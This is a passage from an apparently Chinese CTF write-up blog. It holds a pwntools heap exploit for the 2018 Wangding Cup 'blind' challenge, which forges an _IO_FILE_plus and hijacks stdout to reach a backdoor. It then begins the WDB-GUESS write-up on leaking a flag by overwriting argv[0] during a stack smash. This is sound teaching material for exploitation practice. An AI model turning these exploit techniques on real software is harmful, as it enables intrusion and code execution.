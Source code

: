 ```py

back = 0x4008E3

malloc(0,"aaaa")
malloc(1,"bbbb")

#free(0)
free(1)
change(1,p64(0x60201d)+'\n')

malloc(2,"dddd")

#payload = "c"*0x43 + p64(0x602020) + p64(0x0602080) +p64(0x0602080+0x68) + p64(0x0602080 + 0x68*2) + p64(0x0602080 + 0x68*3)

payload = 'aaa' + 'a'*0x30
payload += p64(0x602020) + p64(0x602090) + p64(0x602090 + 0x68) 
payload += p64(0x602090 + 0x68*2) + p64(0x602090 + 0x68*3)
malloc(3,payload)

fakechunk = p64(0x00000000fbad8080) + p64(0x602060)*7 + p64(0x602061) + p64(0)*4  + p64(0x602060) + p64(0x1) + p64(0xffffffffffffffff) + p64(0) + p64(0x602060) + p64(0xffffffffffffffff) + p64(0) +p64(0x602060) + p64(0)*3 + p64(0x00000000ffffffff) + p64(0) +  p64(0) + p64(0x602090 + 0x68*3)

change(1,fakechunk[:0x68])
change(2,fakechunk[0x68:0x68*2])
change(3,fakechunk[0x68*2:]+'\n')
gdb.attach(p)
payload = "a" * 7*8 + p64(back) + '\n'
change(4, payload)
change(0,p64(0x602090)+'\n') # edit stdout-pointer to io-file-plus
p.interactive()
```

https://www.jianshu.com/p/ca748b56115e
http://b0ldfrev.top/2018/09/05/%E7%BD%91%E9%BC%8E%E6%9D%AFPwn%E4%B9%8Bblind/

p *(struct _IO_FILE_plus *) stdout

## 2018-WDB-GUESS

![20210522010905](https://raw.githubusercontent.com/Brubbish/pic_bed/master/blog/20210522010905.png)

拖到ida里f5
![20210522011430](https://raw.githubusercontent.com/Brubbish/pic_bed/master/blog/20210522011430.png)

程序把flag保存到栈上，然后将输入的值和flag进行比较，如果错误就新fork一个进程。漏洞函数明显在gets上，因为有两次fork的机会，所以可以肆无忌惮地触发canary达到某些目的（stack smash）

- argv[] 保存了环境变量，argv[0]保存的是程序路径，覆盖argv[0]可以使得触发stack smash的时候输出有用的东西，SS代码如下

```c
void __attribute__ ((noreturn)) __stack_chk_fail (void)
{
  __fortify_fail ("stack smashing detected");
}
void __attribute__ ((noreturn)) internal_function __fortify_fail (const char *msg)
{
  /* The loop is added only to keep gcc happy.  */
  while (1)
    __libc_message (2, "*** %s ***: %s terminated\n",
                    msg, __libc_argv[0] ?: "<unknown>");
}
```
